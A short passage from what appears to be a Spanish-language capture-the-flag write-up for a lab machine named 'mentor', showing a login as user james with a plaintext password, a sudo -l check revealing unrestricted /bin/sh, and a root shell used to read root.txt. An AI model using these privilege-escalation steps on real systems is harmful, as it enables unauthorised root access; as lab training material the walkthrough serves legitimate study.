 Acción:

```bash
su james --> SuperSecurePassword123__
```

Acción:

```bash
sudo -l
```

Resultado:

```bash
[sudo] password for james: 
Matching Defaults entries for james on mentor:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User james may run the following commands on mentor:
    (ALL) /bin/sh
```

Acción y resultado:

```bash
sudo sh
# whoami
root
# cd /home
# ls
james  svc
# cd /root
# ls
logins.log  root.txt  scripts  snap
# cat root.txt
```

---
